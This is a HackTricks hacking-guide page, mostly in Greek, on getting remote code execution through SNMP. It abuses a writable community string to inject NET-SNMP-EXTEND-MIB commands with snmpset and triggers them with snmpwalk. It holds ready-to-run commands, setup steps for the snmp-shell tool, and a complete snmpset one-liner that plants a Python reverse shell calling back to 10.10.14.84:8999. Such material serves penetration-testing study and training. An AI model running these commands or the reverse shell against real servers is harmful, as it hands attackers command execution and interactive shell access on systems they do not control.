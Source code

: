 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

# SNMP RCE

Το SNMP μπορεί να εκμεταλλευτεί από έναν επιτιθέμενο αν ο διαχειριστής παραβλέψει την προεπιλεγμένη ρύθμιση του στη συσκευή ή τον διακομιστή. Με την **κατάχρηση της κοινότητας SNMP με δικαιώματα εγγραφής (rwcommunity)** σε ένα λειτουργικό σύστημα Linux, ο επιτιθέμενος μπορεί να εκτελέσει εντολές στον διακομιστή.

## Επέκταση Υπηρεσιών με Πρόσθετες Εντολές

Για να επεκταθούν οι υπηρεσίες SNMP και να προστεθούν επιπλέον εντολές, είναι δυνατόν να προστεθούν νέες **γραμμές στον πίνακα "nsExtendObjects"**. Αυτό μπορεί να επιτευχθεί χρησιμοποιώντας την εντολή `snmpset` και παρέχοντας τις απαραίτητες παραμέτρους, συμπεριλαμβανομένης της απόλυτης διαδρομής προς το εκτελέσιμο και την εντολή που θα εκτελεστεί:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## Εισαγωγή Εντολών για Εκτέλεση

Η εισαγωγή εντολών για εκτέλεση στην υπηρεσία SNMP απαιτεί την ύπαρξη και εκτελεσιμότητα του καλούμενου δυαδικού/σεναρίου. Το **`NET-SNMP-EXTEND-MIB`** απαιτεί την παροχή της απόλυτης διαδρομής προς το εκτελέσιμο.

Για να επιβεβαιωθεί η εκτέλεση της εισαγόμενης εντολής, μπορεί να χρησιμοποιηθεί η εντολή `snmpwalk` για την καταμέτρηση της υπηρεσίας SNMP. Η **έξοδος θα εμφανίσει την εντολή και τις σχετικές λεπτομέρειες της**, συμπεριλαμβανομένης της απόλυτης διαδρομής:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Running the Injected Commands

Όταν η **εισαγμένη εντολή διαβαστεί, εκτελείται**. Αυτή η συμπεριφορά είναι γνωστή ως **`run-on-read()`** Η εκτέλεση της εντολής μπορεί να παρατηρηθεί κατά τη διάρκεια της ανάγνωσης snmpwalk.

### Gaining Server Shell with SNMP

Για να αποκτήσετε έλεγχο πάνω στον διακομιστή και να αποκτήσετε ένα server shell, μπορείτε να χρησιμοποιήσετε ένα σενάριο python που έχει αναπτυχθεί από τον mxrch από [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Εναλλακτικά, μπορείτε να δημιουργήσετε χειροκίνητα ένα reverse shell εισάγοντας μια συγκεκριμένη εντολή στο SNMP. Αυτή η εντολή, που ενεργοποιείται από το snmpwalk, δημιουργεί μια σύνδεση reverse shell με τη μηχανή του επιτιθέμενου, επιτρέποντας τον έλεγχο της μηχανής του θύματος. Μπορείτε να εγκαταστήσετε τις προϋποθέσεις για να το εκτελέσετε:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
Ή μια αντίστροφη θήκη:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
## Αναφορές
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
